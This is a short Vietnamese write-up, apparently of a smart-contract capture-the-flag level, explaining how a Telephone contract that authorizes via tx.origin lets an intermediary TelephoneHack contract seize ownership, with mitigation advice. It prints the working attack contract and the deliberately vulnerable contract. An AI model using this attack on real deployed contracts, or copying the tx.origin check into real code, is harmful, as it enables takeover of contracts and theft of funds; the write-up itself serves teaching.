 ### Kết luận
- Lỗ hổng:
1. Contract tấn công TelephoneHack được thiết kế để vượt qua điều kiện `if` của hàm `changeOwner`.
2. `msg.sender` khi gọi `TelephoneHack.attack()` là địa chỉ của người dùng (attacker).
3. `tx.origin` vẫn là địa chỉ của người dùng (không đổi qua nhiều contract).
=> Do đó, msg.sender của contract Telephone sẽ là address(TelephoneHack) (contract trung gian) trong khi tx.origin vẫn là attacker, thỏa mãn điều kiện tx.origin != msg.sender.
=> Kẻ tấn công có thể thay đổi owner của contract Telephone.


- Cách phòng tránh:
1. Không nên sử dụng tx.origin () để kiểm tra quyền mà cần sử dụng msg.sender để an toàn hơn, hoặc có thể thêm xác thực bằng chữ kí số,..etc.
### Attack Contract
```solidity
// SPDX-License-Identifier: MIT
import './telephone.sol';
pragma solidity ^0.8.0;
interface ITelephone{
    function changeOwner(address _owner) external;
}
contract TelephoneHack{
    ITelephone public telephone;
    constructor (address _telephoneAddress){
        telephone = ITelephone(_telephoneAddress);
    }
    function attack() external payable{
        telephone.changeOwner(tx.origin);
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner; // Lỗ hổng ở đây
        }
    }
}
```
